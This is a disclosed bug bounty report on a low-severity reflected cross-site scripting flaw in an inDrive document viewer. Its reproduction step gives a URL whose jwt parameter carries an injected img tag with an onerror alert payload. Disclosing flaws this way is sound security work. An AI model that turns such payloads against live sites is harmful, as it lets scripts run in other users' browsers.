 # #3 XSS on watchdocs.indriverapp.com

## Report Details
- **Report ID**: 2028265
- **URL**: https://hackerone.com/reports/2028265
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-06-16T01:50:00.169Z
- **Disclosed**: 2024-04-11T08:33:03.409Z

## Reporter
- **Username**: maxdha
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
## Summary:
Found an XSS

## Steps To Reproduce:

  1. Go to https://watchdocs.indriverapp.com/webview/v1/transport-change?phone=██████&token=█████████&service=intercity3&jwt=fw%22%3E%3Cimg%20src=fwa%20onerror=alert(1)%3E
  

## Supporting Material/References:
████

## Impact

Execute Javascript on any victim browser

## Attachments
No attachments
